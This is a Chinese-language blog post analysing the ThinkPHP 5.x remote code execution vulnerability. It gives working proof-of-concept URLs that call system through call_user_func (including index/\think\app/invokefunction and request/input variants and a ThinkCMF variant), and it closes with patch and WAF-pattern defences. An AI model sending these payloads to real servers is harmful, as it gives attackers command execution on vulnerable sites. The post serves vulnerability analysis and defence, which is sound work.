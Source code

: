 ```yaml
---
layout: post
title:  "Thinkphp5 getshell漏洞分析"
---
```

# Thinkphp5 getshell漏洞分析

* 通杀所有使用了thinkphp5.0和5.1
* 实际上在不同使用thinkphp5开发的cms中getshell的参数会有差异

### 在thinkphp5 getshell poc
这是目前公开5.0.20的poc<br/>
/index.php?s=index/\think\app/invokefunction&function=call_user_func&var[0]=system&var[1]=ls<br/>
![图片0](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/0.jpg)<br />
调用过程如下<br/>
![图片1](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/1.jpg)<br />
详情分析：https://www.anquanke.com/post/id/167653<br/>
另外可利用的index/\think\request/input<br/>
传入data=ls name= default= filter=system<br/>
![图片2](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/2.jpg)<br />
通过call_user_func执行<br/>
![图片3](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/3.jpg)<br />
并不局限于以上两个方法，但一定是think\这个命名空间下的已知类<br/>
### thinkcmf利用过程区别
getshell poc<br/>
/public/index.php?s=portal/\think\app/invokefunction&function=call_user_func&function_name=system&parameters=whoami<br/>
![图片4](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/4.jpg)<br />
1.thinkcmf默认不存在index，这里我选用portal<br/>
![图片5](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/5.jpg)<br />
2.参数差异，这里要使用function_name parameters<br/>

### 防护
1.代码本身就更新thinkphp5，或修改代码。<br/>
2.防护设备可以匹配s=.*?/双斜杠think双斜杠.*?来判定，解释下s参数是thinkphp5 var_pathinfo的默认配置为s，利用的类目前也都是在think\这个命名空间下的已知类。<br/>